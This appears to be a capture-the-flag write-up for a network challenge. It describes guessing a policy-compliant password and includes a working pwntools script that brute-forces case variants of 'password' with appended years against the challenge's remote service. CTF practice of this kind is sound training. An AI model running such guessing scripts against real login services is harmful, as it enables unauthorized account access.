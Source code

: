 # Network - nm01
## Description
```
Access the network service at 1-nm01.bootupctf.net port: 7906 and find a way to get the flag. Note: The password policy requires at least one capital letter, and four digits. The policy is also to force a password change every year.
```
From the description, my first attempts revolved around trying every word from rockyou, capitalized, with `2024` appended at the end. When this didn't work, decided to keep it basic and try variations on `password`. Built a python script to try every possible uppper and lower case combination of the word, with the year appended. This again failed.
Finally got an external push that yearly changes doesn't necessarily mean that the year would be `2024`, adapted the script to try all years from 1990, and finally got a hit:

```
from pwn import *
from itertools import *

pw = "password"
def uppi(text,pos):
    t = list(text)
    for p in pos:
        t[p] = t[p].upper()
    return "".join(t)

stuff = [*range(len(pw))]
for L in range(1,len(stuff) + 1):
    for subset in combinations(stuff, L):
        for number in range(1990,2024):
            rep = list(subset)
            #print(rep)
            #conn = remote('1-nm01.bootupctf.net',7906,level='debug')
            conn = remote('1-nm01.bootupctf.net',7906,level='error')
            conn.recvline()
            pwt = uppi(pw,rep)+f'{number:04}'
            conn.sendline(pwt)
            ans = conn.recvline()
            if ans != b'Authentication failure. Goodbye.\n':
                ans = conn.recvline()
                ans = conn.recvline()
                print([pwt,ans])
            #print([pwt,ans])
            conn.close()
```

